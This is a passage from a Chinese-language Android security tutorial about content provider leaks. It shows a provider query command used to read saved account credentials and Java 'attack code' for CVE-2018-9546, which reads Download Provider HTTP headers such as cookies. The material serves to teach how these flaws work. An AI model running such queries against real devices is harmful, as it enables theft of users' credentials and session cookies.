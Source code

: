 

![](https://bbs.pediy.com/upload/attach/202109/905443_AG83T36NF98JV36.png)

 

我们可以对敏感数据读取：

```
run app.provider.query uri

```

![](https://bbs.pediy.com/upload/attach/202109/905443_V79WY8BMC6YQV4Y.png)

 

我们就成功的将我们刚才保存的账号密码信息给获取了

 

案例 3：[CVE-2018-9546: Download Provider 文件头信息泄露](https://mabin004.github.io/2019/04/15/Android-Download-Provider%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

 

漏洞描述：

```
Download Provider运行app获取下载的http请求头，但理论上APP只能访问自己下载的文件的http请求头，但Download Provider没有做好权限配置，导致heads可以被任意读取。header中会保存一些敏感数据，例如cookie等。

```

目标代码：

```
读取header的URI为：content://download/mydownloads/download_id/headers

```

攻击代码：

```
Uri uri = Uri.parse("content://download/mydownloads/1493/headers");
Cursor cur = res.query(uri, null, null, null, null);
 
try {
    if (cur != null && cur.getCount() > 0) {
        StringBuilder sb = new StringBuilder(LOG_SEPARATOR);
        sb.append("HEADERS FOR DOWNLOAD ID ").append(id).append("\n");
        while (cur.moveToNext()) {
            String rowHeader = cur.getString(cur.getColumnIndex("header"));
            String rowValue = cur.getString(cur.getColumnIndex("value"));
            sb.append(rowHeader).append(": ").append(rowValue).append("\n\n");
        }
        log(sb.toString());
    }
} finally {
    if (cur != null)
        cur.close();
}

```

